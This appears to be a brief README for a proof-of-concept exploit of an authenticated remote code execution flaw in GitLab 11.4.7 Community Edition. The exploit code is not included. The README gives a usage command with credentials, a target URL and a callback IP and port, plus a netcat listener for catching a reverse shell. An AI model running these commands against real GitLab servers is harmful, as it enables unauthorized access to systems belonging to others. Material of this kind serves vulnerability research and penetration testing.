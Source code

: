 # GitLab-11.4.7-RCE (Exploit fixed) with BeautifulSoup
POC for GitLabs Authenticated RCE in version 11.4.7 community edition

## Usage
Example : python3 exploit.py -u user -p password -g http://example.com -l 10.10.10.10 -P 443\
Netcat listener : nc -nlvp 443
